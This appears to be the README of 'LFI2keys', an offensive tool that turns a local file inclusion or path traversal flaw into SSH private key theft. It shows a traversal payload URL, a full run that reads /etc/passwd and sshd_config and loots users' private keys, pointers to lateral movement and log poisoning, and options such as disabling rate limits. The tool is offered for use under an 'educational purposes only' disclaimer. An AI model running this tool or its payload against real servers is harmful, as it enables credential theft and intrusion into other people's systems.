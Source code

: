 ## Summary
Found a local file inclusion or path traversal vulnerability? Automate the extraction of SSH private keys with LFI2keys. It uses the exposed `/etc/passwd` file to extract valid users, checks for commonly named SSH keys, and gathers useful SSH configuration details.

## Usage
Provide the full URL of the vulnerable endpoint where you can read the `/etc/passwd` file, and supply a private key [wordlist](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists). Use the `-v` parameter for verbose output and for printing the found private key.

```bash
┌──(kali㉿DC07 | 2025-02-12 00:13:37)-[~]
└─$ python3 lfi2keys.py -u https://127.0.0.1/cgi-bin/.%2e/.%2e/etc/passwd -l ssh-priv-key-loot-common.txt -a -o keys.txt

  _    ___ ___ ___ _  _______   _____ 
 | |  | __|_ _|_  ) |/ / __\ \ / / __|
 | |__| _| | | / /|   <| _| \ V /\__ \
 |____|_| |___/___|_|\_\___| |_| |___/

LFI to SSH Private Keys - Automated Looting Script

[*] The script provided is for educational purposes only, I am not responsible for your actions.
[+] Valid /etc/passwd file found
[+] Valid users exported:
    root -> /root (UID: 0)
    miranda -> /home/miranda (UID: 1001)
    steven -> /home/steven (UID: 1002)
    mark -> /home/mark (UID: 1003)
    nick -> /home/nick (UID: 1004)
[+] /etc/ssh/sshd_config file found
    PermitRootLogin: disabled
    PubkeyAuthentication: enabled
    PasswordAuthentication: disabled
    ChallengeResponseAuthentication: disabled
[+] Checking for SSH metadata (authorized_keys, known_hosts and .ssh/config)...
[!] Found authorized_keys for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/authorized_keys
[!] Found authorized_keys.bak for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/authorized_keys.bak
[!] Found known_hosts for miranda: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/known_hosts
[!] SSH config found for mark (https://127.0.0.1/cgi-bin/.%2e/.%2e/mark/.ssh/config) - possible lateral movement
    Host: TestServer
       HostName: 192.168.1.10
       User: Thunderdome
       Port: 2222
       IdentityFile: ~/.ssh/gabber.key
[!] Private key found for mark at: https://127.0.0.1/cgi-bin/.%2e/.%2e/mark/.ssh/gabber.key
[+] Starting to FUZZ
[!] Private key found for nick at: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/id_rsa
[!] Private key found for steven at: https://127.0.0.1/cgi-bin/.%2e/.%2e/home/test/.ssh/id_ecdsa-sk
[+] No accessible SSH keys found for additional directories
[!] Log file found: https://127.0.0.1/cgi-bin/.%2e/.%2e/var/log/auth.log - this file may be used for log poisoning if writable
[+] Results saved to keys.txt
[+] Done (～￣▽￣)～
```

## Options
```bash
  -h, --help            show this help message and exit
  -u, --url URL         LFI URL pointing to /etc/passwd
  -l, --list LIST       Wordlist containing SSH private key names
  -o, --output OUTPUT   File to save found private key URLs and contents
  -p, --proxy PROXY     Proxy URL (e.g., http://127.0.0.1:8080)
  -v, --verbose         Enable verbose mode for debugging
  -a, --all             Also search the entire home directory and additional paths
  --ignore-403          Continue scanning even if a 403 status code is encountered
  --no-rate-limit       Disable rate limiting on proxy (for debug/testing purposes)
  -c, --continue-on-success
                        Continue scanning all users for private keys even after a match is found
```

## Disclaimer
The script provided is for educational purposes only, I am not responsible for your actions.

### Credits
- [PinoyWH1Z](https://github.com/PinoyWH1Z) for his [SSH private key wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists).

